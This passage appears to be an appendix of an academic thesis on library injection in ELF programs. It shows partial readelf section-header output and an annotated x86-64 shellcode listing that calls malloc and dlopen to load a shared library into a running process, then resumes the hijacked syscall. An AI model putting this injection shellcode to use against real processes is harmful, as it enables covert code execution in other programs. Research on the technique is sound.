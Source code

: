 \begin{lstlisting}[language=bash, caption={List of ELF section headers with readelf tool of a program compiled with GCC.}, label={code:elf_sections}]
       0000000000000480  0000000000000018          34    22     8
  [34] .strtab           STRTAB           0000000000000000  00003d18
       00000000000002a2  0000000000000000           0     0     1
  [35] .shstrtab         STRTAB           0000000000000000  00003fba
       000000000000015f  0000000000000000           0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  l (large), p (processor specific)
\end{lstlisting}


\chapter* {Appendix C - Library injection shellcode} \label{annex:shellcode}
\begin{lstlisting}[language={[x86masm]Assembler}, caption={Shellcode for library injection and its opcodes.}, label={code:shellcode}]
# Saving state of registers
push rbp  # 55
push rax  # 50
push rcx  # 51
push rdx  # 52
push rbx  # 53
push rdi  # 57
push rsi  # 56

# Call malloc. Get address in the heap
mov edi,0x2000 # BF00200000
mov rbx, <malloc address libc>  # 48BB<address little endian 64bit>
call rbx  # FFD3
mov rbx, rax  # 4889C3

# Write the string of the library path into reserved memory
mov dword [rax],0x6d6f682f  # C7002F686F6D
mov dword [rax+0x4],0x736f2f65  # C74004652F6F73
mov dword [rax+0x8],0x65786f62  # C74008626F7865
mov dword [rax+0xc],0x46542f73  # C7400C732F5446
mov dword [rax+0x10],0x72732f47  # C74010472F7372
mov dword [rax+0x14],0x65682f63  # C74014632F6865
mov dword [rax+0x18],0x7265706c  # C740186C706572
mov dword [rax+0x1c],0x6e692f73  # C7401C732F696E
mov dword [rax+0x20],0x7463656a  # C740206A656374
mov dword [rax+0x24],0x5f6e6f69  # C74024696F6E5F
mov dword [rax+0x28],0x2e62696c  # C740286C69622E
mov dword [rax+0x2c],0x6f73  # C7402C736F0000

# Call dlopen.
mov rax, <dlopen address libc>  # 48B8<address little endian 64bit>
mov rsi, 0x1  # BE01000000
mov rdi, rbx  # 4889DF
sub rsp,0x1000  # 4881EC00100000
call rax  # FFD0

# Restoring state of registers and execution flow
add rsp,0x1000  # 4881C400100000
pop rsi  # 5E
pop rdi  # 5F
pop rbx  # 5B
pop rdx  # 5A
pop rcx  # 59
pop rax  # 58
pop rbp  # 5D

# Jump to the original syscall
jmp qword ptr [rip+0x0]  # FF2500000000
<address original syscall glibc 64bit>

\end{lstlisting}
